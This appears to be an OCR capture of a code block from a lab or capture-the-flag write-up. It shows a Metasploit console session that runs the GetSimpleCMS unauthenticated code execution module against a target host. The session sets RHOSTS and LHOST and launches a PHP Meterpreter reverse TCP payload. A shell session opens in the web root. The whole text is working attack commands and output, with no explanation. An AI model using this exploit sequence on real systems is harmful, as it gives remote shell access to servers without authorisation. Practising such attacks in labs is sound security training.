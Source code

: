 ```js
msf6 > use 1
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.129    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set RHOSTS  10.129.87.77
RHOSTS => 10.129.87.77
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set LHOST 10.10.14.178
LHOST => 10.10.14.178
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.178:4444 
[*] Sending stage (39927 bytes) to 10.129.87.77
[*] Meterpreter session 1 opened (10.10.14.178:4444 -> 10.129.87.77:48986) at 2023-03-27 18:07:56 +0200

meterpreter > pwd
/var/www/html/theme
```
